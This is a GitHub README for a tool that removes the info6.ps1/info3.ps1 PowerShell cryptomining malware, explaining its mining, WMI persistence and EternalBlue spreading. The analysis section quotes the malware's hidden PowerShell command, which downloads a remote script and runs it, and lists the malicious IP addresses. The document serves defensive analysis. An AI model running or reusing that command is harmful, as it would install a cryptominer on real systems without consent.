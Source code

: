 # AntiMining-info6
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Logo.jpg)
#### By Carlos Ramírez López

## ABOUT
Currently, cryptocurrency mining malware with file name info6.ps1 is being propagated for architecture (X64) and info3.ps1 for architecture (x86) in Windows. This malware is divided into four parts:

  - Performance modification in the computer equipment to "high performance" through the Windows registry.
  - Mining of cryptocurrencies, increasing CPU processing between 70% and 100%. (Image 1)
  - Persistence in infected computers, modifications of Windows variable classes. (Image 2 and 3)
  - Propagation through the network taking advantage of the Eternalblue vulnerability in the SMB port 445 of shared folders, scanning the red segment of the computer equipment. (Image 4)

#### Image 1
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/CPU.jpg)

#### Image 2
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Clases.jpg)

#### Image 3
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Infected_Class.jpg)

#### Image 4
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Scan.jpg)

In the page www.virustotal.com, 16 of 59 antivirus detect the files info6.ps1 and info3.ps1 on February 12, 2018 as a malware, however, once the code has been executed on your computer, only 1 of 59 antivirus I detect it, but without creating a solution on the affected computers.
Malware info6.ps1 and info3.ps1
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_Total1.jpg)

malware in the operating system
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_total2.jpg)


### ANALYSIS
The malware is downloaded from different IP addresses by means of the script identifying the type of architecture:
#### DO NOT EXECUTE THE FALLOWING COMMAND

```
cmd /c powershell.exe -NoP -NonI -W Hidden "if((Get-WmiObject Win32_OperatingSystem).osarchitecture.contains('64')){IEX(New-Object Net.WebClient).DownloadString('http://IP /info6.ps1')}else{IEX(New-Object Net.WebClient).DownloadString('http://IP/info3.ps1')}"
```
malicious IP addresses:
195.22.127.157:8000/INFO6.PS1
118.XXX.48.95:8000/INFO6.PS1
93.XXX.93.73:8000/INFO6.PS1

#### The malware creates persistence stored in classes:
```
__FilterToConsumerBinding
CommandLineEventConsumer
__EventFilter –filter
```
## Elimination of malware

To eliminate the malware it is necessary to eliminate the variables the content of the affected variables where the malicious script is stored.
For this we only need to eliminate the powershell.exe from the task manager and execute the AntiMining-info6.bat script by double clicking on it, automatically removing the malware.

![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/AntiMiner.jpg)


